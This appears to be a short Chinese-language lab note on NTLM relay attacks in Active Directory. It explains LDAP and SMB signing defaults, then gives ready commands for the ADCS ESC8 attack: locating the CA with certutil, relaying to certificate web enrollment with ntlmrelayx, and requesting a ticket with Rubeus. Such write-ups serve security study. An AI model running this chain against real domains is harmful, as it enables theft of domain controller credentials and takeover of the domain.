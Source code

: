 LDAP一般只安装在域控上，默认是协商签名而非强制签名。

* 即当relay时SMB签名开启或者强制签名时：需要签名
* 当SMB签名关闭（SMBv1）或者HTTP的流量时：不需要签名

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220210162244-k7o78qe.png)

### SMB

域控：作为server端，域控默认是强制SMB签名的。

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220210160625-uh5gccn.png)


域内普通机器：作为客户端，默认不开强制签名，默认为Enabled。

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220210160938-g8l0lfw.png)


## Relay To？

**ADC.com**

* 10.10.10.10 域控
* 10.10.10.14 ADCS
* 10.10.10.16 Exchange
* 10.10.10.12 普通域内机器

**DDC.com**

* 10.10.10.20 域控
* 10.10.10.21 Exchange

### ADCS ESC8

定位ADCS服务器：

```bash
certutil -config - -ping

```

利用

```bash
python3 ntlmrelayx.py -t http://10.10.10.14/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

```

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20220215111530-1sxziik.png)


```bash
Rubeus.exe asktgt /user:WIN-8NUIJ5CPB71$ /certificate:base64cert /domain:adc.com /dc:10.10.10.10 /ptt
```
